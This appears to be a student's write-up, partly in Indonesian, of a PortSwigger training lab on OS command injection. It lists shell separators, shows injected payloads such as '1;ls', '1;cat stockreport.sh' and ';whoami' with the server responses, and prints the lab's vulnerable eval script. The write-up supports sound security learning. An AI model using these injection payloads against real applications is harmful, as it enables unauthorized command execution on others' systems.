


# OS command injection, simple case

> **Lab Description:** This lab contains an OS command injection vulnerability in the product stock checker. The application executes a shell command containing user-supplied product and store IDs, and returns the raw output from the command in its response. To solve the lab, execute the `whoami` command to determine the name of the current user.

## Lab Overview

| Property             | Detail                                                                                        |
| :------------------- | :-------------------------------------------------------------------------------------------- |
| **Category**         | Command injection                                                                             |
| **Difficulty Level** | Apprentice                                                                                    |
| **Lab URL**          | [PortSwigger Lab Link](https://portswigger.net/web-security/os-command-injection/lab-simpley) |
| **Status**           | Solved                                                                                        |
| **Date Completed**   | 2026-11-17                                                                                    |

## Analysis

Diberikan web sebagai berikut:



Objektif lab ini adalah kita diminta untuk melakukan `command OS Injection` dan menjalankan perintah `whoami` pada endpoint `/product/stock`, letak pemanggilan endpoint tersebut berada di halaman detail produk


Berikut simbol yang dapat memicu `Command OS Injection`

| Separator              | `/bin/sh` (Linux) | `cmd.exe` (Windows) | Catatan                               |
| ---------------------- | ----------------- | ------------------- | ------------------------------------- |
| `;`                    | ya                | tidak               | pemisah berurutan (POSIX)             |
| `&&` / `\|\|`          | ya                | ya                  | jalan jika sukses / jika gagal        |
| `\|`                   | ya                | ya                  | pipe (perintah kedua tetap jalan)     |
| `&`                    | ya                | ya                  | jalankan di background / berurutan    |
| `$(cmd)` / `` `cmd` `` | ya                | tidak               | command substitution (inline)         |
| `%0a` (newline)        | ya                | sebagian            | berguna saat hanya newline yang lolos |

Lalu saya mencoba untuk tes Injection menggunakan burpsuite, lalu saya ambil sample product 1 dan edit parameternya

```text
payload: 1;ls
response:
HTTP/2 200 OK
Content-Type: text/plain; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 18

62
stockreport.sh

payload: 1;cat stockreport.sh
response:
HTTP/2 200 OK
Content-Type: text/plain; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 79

62
#!/bin/bash

set -eu

eval cksum <<< "$1 $2" | cut -c 2-3 | rev | sed s/0/1/
```

## Exploitation



### Final Payload

```text
;whoami
```

## New Knowledge

- Mempelajari bagaimana cara kerja `Command OS Injection`

## References

- [OS Command Injection](https://portswigger.net/web-security/os-command-injection)
- [CWE-78:Improper Neutralization of Special Elements used in an OS Command](https://cwe.mitre.org/data/definitions/78.html)
